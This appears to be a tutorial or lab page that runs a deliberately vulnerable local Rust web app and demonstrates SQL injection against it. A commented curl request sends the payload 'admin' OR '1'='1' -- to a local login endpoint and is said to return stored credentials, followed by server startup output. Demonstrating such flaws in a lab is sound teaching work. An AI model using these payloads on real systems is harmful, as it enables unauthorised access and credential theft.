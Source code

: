 
```Rust
use std::process::{Command, Output, Stdio};

// A helper function to execute a shell command from a Rust script
fn execute_command(command: &str) -> Result<(), std::io::Error> {
    let status = Command::new("bash")
        .arg("-c")
        .arg(command)
        .stderr(Stdio::inherit())
        .status()?;

    if status.success() {
        Ok(())
    } else {
        Err(std::io::Error::from_raw_os_error(status.code().unwrap_or(1)))
    }
}
```


```Rust
let command = "cd sql-injection && cargo run";

if let Err(err) = execute_command(command) {
    eprintln!("Error executing command: {}", err);
}

// In a separate terminal, execute the following cURL command:

// curl -X POST \
//        -H "Content-Type: application/x-www-form-urlencoded" \
//        -d "username=admin' OR '1'='1' --&password=your_password" \
//        http://127.0.0.1:8000/login

// You will get the username and password for the first user in the database:
// username: mahmoud, password: pass
```

        Finished dev [unoptimized + debuginfo] target(s) in 0.13s
         Running `target/debug/sql-injection`


    Configured for debug.
       >> address: 127.0.0.1
       >> port: 8000
       >> workers: 8
       >> max blocking threads: 512
       >> ident: Rocket
       >> IP header: X-Real-IP
       >> limits: bytes = 8KiB, data-form = 2MiB, file = 1MiB, form = 32KiB, json = 1MiB, msgpack = 1MiB, string = 8KiB
       >> temp dir: /tmp
       >> http/2: true
       >> keep-alive: 5s
       >> tls: disabled
       >> shutdown: ctrlc = true, force = true, signals = [SIGTERM], grace = 2s, mercy = 3s
       >> log level: normal
       >> cli colors: true
    Routes:
       >> (login) POST /login
       >> (register) POST /register
    Fairings:
       >> 'sqlite_db' Database Pool (ignite, shutdown)
       >> Shield (liftoff, response, singleton)
    Shield:
       >> X-Content-Type-Options: nosniff